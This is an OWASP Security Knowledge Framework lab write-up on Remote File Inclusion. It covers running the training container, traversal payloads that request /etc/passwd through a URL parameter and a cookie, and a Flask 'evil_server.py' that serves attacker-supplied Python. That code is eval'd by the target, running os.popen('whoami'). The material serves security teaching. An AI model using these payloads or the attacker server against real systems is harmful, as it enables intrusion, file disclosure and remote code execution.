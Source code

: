 # KBID 173 - Remote File Inclusion


## Running the app



```text
$ sudo docker pull blabla1337/owasp-skf-lab:remote-file-inclusion
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:remote-file-inclusion
```

{% hint style="success" %}

Now that the app is running let's go hacking! 

![Docker Image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```text
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

## Exploitation

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript 

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

![](.gitbook/assets/RFI1.png)

![](.gitbook/assets/RFI2.png)

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

![](.gitbook/assets/RFI3.png)


To exploit an Remote File Inclusion vulnerability we need first to setup our on webserver so we are able to serve our own file. In this case i will use Python Flask to create a small webserver that serves my file. We name it evil_server.py

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.py")
def start():
    return render_template("evil.py")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
	
```
Then we create our folder template where we will put our evil.py file with the below content.

```python
5 + 5
```

Now we are ready to start our evil_server.py and try to make the application load our evil python file and hopefully it will get executed.

![](.gitbook/assets/RFI4.png)

Our remote file inclusion worked and the application seems to load python files and eval() the content of them. This means we can also inject a system command in our evil.py file. 

```python
os.popen('whoami').read()
```

![](.gitbook/assets/RFI5.png)

{% hint style="success" %} Success! As we observed, we can include our own files through RFI.

## Additional sources

https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion 

